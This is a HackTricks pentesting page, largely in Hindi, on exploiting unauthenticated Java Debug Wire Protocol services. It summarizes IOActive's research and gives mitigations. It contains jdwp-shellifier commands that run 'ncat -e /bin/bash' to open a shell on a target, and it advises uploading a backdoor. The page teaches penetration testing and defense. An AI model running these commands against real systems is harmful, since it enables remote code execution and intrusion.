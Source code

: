 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**अपने वेब ऐप्स, नेटवर्क और क्लाउड पर एक हैकर का दृष्टिकोण प्राप्त करें**

**महत्वपूर्ण, शोषण योग्य कमजोरियों को खोजें और रिपोर्ट करें जिनका वास्तविक व्यावसायिक प्रभाव है।** हमारे 20+ कस्टम टूल का उपयोग करें ताकि हमले की सतह का मानचित्रण किया जा सके, सुरक्षा मुद्दों को खोजा जा सके जो आपको विशेषाधिकार बढ़ाने की अनुमति देते हैं, और आवश्यक सबूत इकट्ठा करने के लिए स्वचालित शोषण का उपयोग करें, जिससे आपका कठिन काम प्रभावशाली रिपोर्टों में बदल जाए।

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Exploiting

JDWP शोषण **प्रोटोकॉल की प्रमाणीकरण और एन्क्रिप्शन की कमी** पर निर्भर करता है। यह सामान्यतः **पोर्ट 8000** पर पाया जाता है, लेकिन अन्य पोर्ट भी संभव हैं। प्रारंभिक कनेक्शन "JDWP-Handshake" को लक्षित पोर्ट पर भेजकर किया जाता है। यदि एक JDWP सेवा सक्रिय है, तो यह उसी स्ट्रिंग के साथ प्रतिक्रिया करती है, इसकी उपस्थिति की पुष्टि करती है। यह हैंडशेक नेटवर्क पर JDWP सेवाओं की पहचान करने के लिए एक फिंगरप्रिंटिंग विधि के रूप में कार्य करता है।

प्रक्रिया पहचान के संदर्भ में, Java प्रक्रियाओं में "jdwk" स्ट्रिंग की खोज करना एक सक्रिय JDWP सत्र को इंगित कर सकता है।

उपयोग करने के लिए सबसे अच्छा टूल [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier) है। आप इसे विभिन्न पैरामीटर के साथ उपयोग कर सकते हैं:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
I found that the use of `--break-on 'java.lang.String.indexOf'` make the exploit more **stable**. And if you have the change to upload a backdoor to the host and execute it instead of executing a command, the exploit will be even more stable.

## More details

**यह [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/) का सारांश है।** आगे की जानकारी के लिए इसे देखें।

1. **JDWP Overview**:
- यह एक पैकेट-आधारित नेटवर्क बाइनरी प्रोटोकॉल है, जो मुख्य रूप से समकालिक है।
- इसमें प्रमाणीकरण और एन्क्रिप्शन की कमी है, जिससे यह शत्रुतापूर्ण नेटवर्क के सामने कमजोर हो जाता है।

2. **JDWP Handshake**:
- संचार शुरू करने के लिए एक सरल हैंडशेक प्रक्रिया का उपयोग किया जाता है। एक 14-चर ASCII स्ट्रिंग “JDWP-Handshake” डिबगर (क्लाइंट) और डिबगी (सर्वर) के बीच आदान-प्रदान की जाती है।

3. **JDWP Communication**:
- संदेशों की एक सरल संरचना होती है जिसमें Length, Id, Flag, और CommandSet जैसे फ़ील्ड होते हैं।
- CommandSet मान 0x40 से 0x80 के बीच होते हैं, जो विभिन्न क्रियाओं और घटनाओं का प्रतिनिधित्व करते हैं।

4. **Exploitation**:
- JDWP मनमाने वर्गों और बाइटकोड को लोड और लागू करने की अनुमति देता है, जो सुरक्षा जोखिम पैदा करता है।
- लेख में पांच चरणों में एक शोषण प्रक्रिया का विवरण दिया गया है, जिसमें Java Runtime संदर्भों को लाना, ब्रेकपॉइंट सेट करना, और विधियों को लागू करना शामिल है।

5. **Real-Life Exploitation**:
- संभावित फ़ायरवॉल सुरक्षा के बावजूद, JDWP सेवाएँ वास्तविक दुनिया के परिदृश्यों में खोजी जा सकती हैं और शोषित की जा सकती हैं, जैसा कि ShodanHQ और GitHub जैसे प्लेटफार्मों पर खोजों द्वारा प्रदर्शित किया गया है।
- शोषण स्क्रिप्ट को विभिन्न JDK संस्करणों के खिलाफ परीक्षण किया गया था और यह प्लेटफ़ॉर्म-स्वतंत्र है, जो विश्वसनीय Remote Code Execution (RCE) प्रदान करता है।

6. **Security Implications**:
- इंटरनेट पर खुले JDWP सेवाओं की उपस्थिति नियमित सुरक्षा समीक्षाओं की आवश्यकता को रेखांकित करती है, उत्पादन में डिबग कार्यक्षमताओं को अक्षम करना, और उचित फ़ायरवॉल कॉन्फ़िगरेशन।

### **References:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Get a hacker's perspective on your web apps, network, and cloud**

**Find and report critical, exploitable vulnerabilities with real business impact.** Use our 20+ custom tools to map the attack surface, find security issues that let you escalate privileges, and use automated exploits to collect essential evidence, turning your hard work into persuasive reports.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
